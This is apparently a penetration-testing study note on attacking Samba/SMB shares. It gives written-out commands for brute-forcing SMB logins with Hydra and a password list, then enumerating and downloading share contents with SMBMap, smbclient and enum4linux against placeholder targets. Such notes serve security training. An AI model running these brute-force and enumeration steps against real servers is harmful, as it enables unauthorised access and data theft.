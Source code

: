 # Exploiting Samba
> SMB is the Server Message Block network file sharing protocol that is used to facilitate the sharing of files and peripherals between computers on a LAN. Samba is the Linux implementation of SMB and it allows Windows systems to access Linux shares and devices.

Samba (SMB) Default Port: `445`
- SMB originally ran on top of NetBIOS using port `139` and you can still find machines that run both (for backwards compatibility).

## Contents
- [Intro](#)
  - [Susceptible to Attacks](#)
  - [Exploiting Samba](#)
- [Exploit](#)
  - [Hydra](#)
  - [SMBMap](#)
  - [smbclient](#)
  - [enum4linux](#)

## Intro

### Susceptible to Attacks
- Samba is susceptible to the same attacks as Windows.
  - PsExec
  - CrackMapExec
  - MetaSploit module(s)

### Exploiting Samba
- Samba utilizes username and password authentication in order to obtain access to the server or a network share.

#### [Hydra](../../hydra.md)
- We can perform a brute-force attack on the samba server in order to obtain legitimate credentials.
- After obtaining legitimate credentials, we can use a utility called SMBMap

#### [SMBMap](../../04_Enumeration/enum_smb.md#smbmap)
- Enumerate samba sare drives.
- List the contents of the shares.
- Upload/Download/Execute files.

#### [smbclient](../../04_Enumeration/enum_smb.md#smbclient)
- smbclient communicates with a LAN Manager server, offering an interface similar to that of the ftp program.
- It can be used to download files from the server to the local machine.
- It can also upload goodies from the local machine to the target.
- And it can retrieve directory information from the server.

#### [enum4linux](../../04_Enumeration/enum_smb.md#enum4linux)
- Another tool. More information.

## Exploit

### [Hydra](../../hydra.md)
```
hydra -l admin -P /usr/share/.../unix_passwords.txt smb://[target ip]
```
- Brute-force login creds with Hydra.

### [SMBMap](../../04_Enumeration/enum_smb.md#smbmap)
```
smbmap                                        # this will show you usage
smbmap -h [target ip] -u admin -p password1   # this shows you the shares (each with specified perms)
```
- Now... How do you access these shares? With smbclient...

### [smbclient](../../04_Enumeration/enum_smb.md#smbclient)
```
smbclient       # usage
man smbclient   # usage
smbclient -L [target ip] -U admin               # enter... prompted for pwd
smbclient //[target ip]/[share name] -U admin   # enter... prompted for pwd
```
- `-L`  is to List out the shares
  - This should give you pretty much the same info we got from SMBMap
- If successful, you will get a prompt: `smb: \>`
  - Look around in the share to see if there are goodies to download. If not, try the next share.
  - Lather. Rinse. Repeat.
  - To download: `get [filename]`

### [enum4linux](../../04_Enumeration/enum_smb.md#enum4linux)
```
enum4linux -a [target ip]
enum4linux -a -u admin -p password1 [target ip]   
```
- `-a`  All option to enumerate all the crap you can.
- Lots of the same info, but at the bottom it lets you know that the server does not allow null sessions (empty usernames and passwords).
  - If they were allowed, we'd get a butt ton more info from enum4linux
- There's your butt ton of information (comprehensive)
